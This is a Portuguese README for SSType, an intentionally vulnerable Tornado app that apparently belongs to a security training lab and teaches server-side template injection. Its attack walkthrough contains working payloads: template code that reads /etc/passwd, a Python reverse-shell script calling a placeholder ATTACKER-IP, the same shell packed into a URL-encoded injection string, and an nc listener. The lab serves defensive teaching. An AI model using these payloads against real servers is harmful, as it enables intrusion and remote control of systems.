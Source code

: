 # SSType

<p align="center"><img  src="src/images/ssti-logo.png"/></br>
    <a href="README.md"><img height="24" title="Access content in English" src="https://img.shields.io/badge/Access%20content%20in-English-blue"/></a></p>

SSType é um aplicativo web Python simples que contém um exemplo de uma vulnerabilidade de injeção de modelo do lado do servidor no Tornado. Neste exemplo, uma subcategoria específica de Injeção será exemplificada: Server Side Injection ou SSTI.

## Index

- [SSType](#sstype)
  - [Index](#index)
  - [O que é injeção?](#o-que-é-injeção)
  - [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
  - [Conheça o app 💉](#conheça-o-app-)
  - [Narrativa de ataque](#narrativa-de-ataque)
  - [Proteger este aplicativo](#proteger-este-aplicativo)
  - [PR Soluções](#pr-soluções)
  - [Contribuição](#contribuição)

## O que é injeção?

Falhas de injeção, como injeção de SQL, NoSQL, SO e LDAP, ocorrem quando dados não confiáveis ​​são enviados a um interpretador como parte de um comando ou consulta. Os dados hostis do invasor podem induzir o intérprete a executar comandos não intencionais ou acessar dados sem a devida autorização.

O principal objetivo deste projeto é discutir como as vulnerabilidades de **SQL Injection** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este aplicativo **intencionalmente inseguro**, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/sstype
```

```sh
make install
```

Depois é só visitar [localhost:10001][app], conforme exemplificado abaixo:

<p align="center"><img  src="images/SSType.jpg"/></p>

## Conheça o app 💉

Para entender corretamente como este aplicativo funciona, você pode fazer uma pesquisa usando `name` como uma string de consulta usando um [browser](http://localhost:10001/?name=Vitor) ou usando `curl` em um terminal: 

```sh
curl http://localhost:10001/?name=Vitor
```

<p align="center"><img  src="images/attack0.png"/></p>

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### Lack of input validation allows injection of OS commands

Após revisar o código da aplicação, foi possível verificar que a entrada do usuário (variável `name` querystring) não está sendo tratada corretamente antes de ser renderizada no template, conforme mostrado nos trechos de código a seguir: 

```python
def get(self):
    name = self.get_argument('name', '')
    template_data = tmpl.replace("NAMEHERE",name)
    t = tornado.template.Template(template_data)
    self.write(t.generate(name=name))
```

```html
<h3>Hello: NAMEHERE</h3>
<h2>Try with /?name=YourName</h2>
```

Para confirmar que o campo de entrada é vulnerável, a seguinte carga útil pode ser usada para testar se o resultado de `4*4` pode ser renderizado na página:
```
http://localhost:10001/?name={{4*4}}
```

Quando esta requisição chegar à aplicação, `NAMEHERE` será substituído no HTML e executará a matemática, retornando `16`:

```html
<h3>Hello: {{4*4}}</h3>
<h2>Try with /?name=YourName</h2>
```

<p align="center"><img  src="images/attack1.png"/></p>

### 🔥

Um invasor pode agora criar qualquer comando malicioso que, em teoria, será executado. O primeiro passo que podemos fazer é tentar ler o conteúdo do arquivo `/etc/passwd`. Para fazer isso, usaremos o seguinte comando Python como a string de consulta `name`:

```python
{%import os%}{{os.popen('cat /etc/passwd').read()}}
```

<p align="center"><img  src="images/attack2.png"/></p>

Excelente! Agora que podemos executar comandos no servidor que hospeda o aplicativo, um script Python malicioso para nos fornecer um shell de alguma forma no servidor da vítima pode ser criado. Vamos dar uma olhada no seguinte exemplo:

```python
import socket,subprocess,os

# creates a socket to estabilish the connection between the victim and the attacker
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKER-IP","ATTACKER-PORT"))

# configures STDIN, STDOUT and STDERR to be used in the shell
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

# spawns an interactive sh shell
p=subprocess.call(["/bin/bash","-i"]);
```

Para receber um shell reverso, primeiro precisamos usar `nc` em nosso terminal para ouvir todas as conexões que chegam ao nosso `ATTACKER-IP` e `ATTACKER-PORT` e depois executar este script Python no servidor vítima:

```sh
nc -nlv ATTACKER-PORT
```

Mas como podemos usar esse payload dentro do parâmetro `name`? Para fazer isso, podemos compactá-lo usando múltiplos `;` para separar cada instrução, resultando na seguinte carga útil:

```
Don't forget to replace `ATTACKER-IP` and `ATTACKER-PORT` below!
```

```python
{%import os%}{{os.popen("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER-IP\",ATTACKER-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'").read()}}
```

No entanto, como pode haver alguns caracteres especiais nessa string, precisamos escapar deles antes de injetá-los no aplicativo vulnerável (este [codificador de URL online](https://www.urlencoder.org/) pode ajudar) e esperamos como o Shell:

```python
%7B%25import%20os%25%7D%7B%7Bos.popen%28%22python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%5C%22ATTACKER-IP%5C%22%2CATTACKER-PORT%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%5C%22%2Fbin%2Fbash%5C%22%2C%5C%22-i%5C%22%5D%29%3B%27%22%29.read%28%29%7D%7D
```

<p align="center"><img  src="images/attack3.png"/></p>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após a modificação do código, um invasor não poderá executar comandos no servidor.

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [esses pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Aclosed+is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3ASSType)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
[secdevlabs]: https://github.com/globocom/secDevLabs
